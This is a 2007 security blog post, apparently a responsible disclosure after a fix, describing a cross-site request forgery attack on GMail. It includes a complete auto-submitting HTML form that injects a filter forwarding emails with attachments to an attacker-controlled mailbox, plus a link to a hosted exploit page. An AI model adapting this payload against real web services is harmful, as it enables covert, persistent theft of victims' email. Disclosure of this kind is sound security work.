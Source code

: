 ```yaml
---
title: Google GMail E-mail Hijack Technique
author: pdp
date: Tue, 25 Sep 2007 18:50:33 GMT
template: post.jade
---
```


In this post I am going to show you how someone can remotely install a simple, persistent filter within a GMail account and download all previous as well as snoop onto all future email conversations.

The following sequence of screenshots describes how the attack works.

<div class="screen">[![GGEHT Seq1](/files/2007/09/ggeht-seq1-248x150.jpg "GGEHT Seq1")](/files/2007/09/ggeht-seq1.jpg) [![GGEHT Seq2](/files/2007/09/ggeht-seq2-248x150.jpg "GGEHT Seq2")](/files/2007/09/ggeht-seq2.jpg) [![GGEHT Seq3](/files/2007/09/ggeht-seq3-248x150.jpg "GGEHT Seq3")](/files/2007/09/ggeht-seq3.jpg)</div>

The victim visits a malicious page while being logged into GMail. Upon that, the page performs a `multipart/form-data` `POST` to one of the GMail alternative interfaces and injects a filter into the victim's filter list. In the example above, the attacker writes a filter, which simply looks for emails with attachments and forward them to an email of their choice. This filter will automatically transfer all emails matching the rule. Keep in mind that future emails will be forwarded as well. The attack will remain **present** for as long as the victim has the filter within their filter list, even if the initial vulnerability, which was the cause of the injection, is fixed by Google.

The technique used in this example is known as Cross-site request forgery, or simply CSRF. I am not planning to go into details how it works. Just look it up on this blog or with your favourite search engine.

I am not planning to release the details of this vulnerability for now. The exploit was verified by [Ryan Naraine](http://blogs.zdnet.com/security/) and several close friends. It does work and it is nasty if you ask me.

**UPDATE 2007/09/28**: I promised to release the POC as soon as Google fixes the vulnerability. Well they did. So, here are the details:

    <form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
    	<input type="hidden" name="cf2_emc" value="true"/> 
    	<input type="hidden" name="cf2_email" value="evilinbox@mailinator.com"/> 
    	<input type="hidden" name="cf1_from" value=""/> 
    	<input type="hidden" name="cf1_to" value=""/> 
    	<input type="hidden" name="cf1_subj" value=""/> 
    	<input type="hidden" name="cf1_has" value=""/> 
    	<input type="hidden" name="cf1_hasnot" value=""/> 
    	<input type="hidden" name="cf1_attach" value="true"/> 
    	<input type="hidden" name="tfi" value=""/> 
    	<input type="hidden" name="s" value="z"/> 
    	<input type="hidden" name="irf" value="on"/> 
    	<input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
    </form> 
    <script> 
    	document.forms[0].submit();
    </script>

_The actual exploit can be launched from [here](/files/2007/09/ggeht-exploit.htm). It makes use of a CSRF redirection utility to simplify the process._
